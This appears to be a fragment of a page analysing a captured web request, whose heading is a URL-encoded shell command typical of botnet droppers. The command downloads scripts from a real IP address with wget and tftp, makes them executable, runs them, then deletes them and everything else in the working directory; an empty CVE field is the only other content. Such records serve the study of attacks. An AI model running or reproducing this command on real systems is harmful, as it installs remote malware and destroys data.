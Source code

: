 # Analysis for /cd%20/tmp%20%7C%7C%20cd%20/run%20%7C%7C%20cd%20/;%20wget%20http://107.173.181.13/Intg420bins.sh;%20chmod%20777%20Intg420bins.sh;%20sh%20Intg420bins.sh;%20tftp%20107.173.181.13%20-c%20get%20Intg420tftp1.sh;%20chmod%20777%20Intg420tftp1.sh;%20sh%20Intg420tftp1.sh;%20tftp%20-r%20Intg420tftp2.sh%20-g%20107.173.181.13;%20chmod%20777%20Intg420tftp2.sh;%20sh%20Intg420tftp2.sh;%20rm%20-rf%20Intg420bins.sh%20Intg420tftp1.sh%20Intg420tftp2.sh;%20rm%20-rf%20*
## CVE: 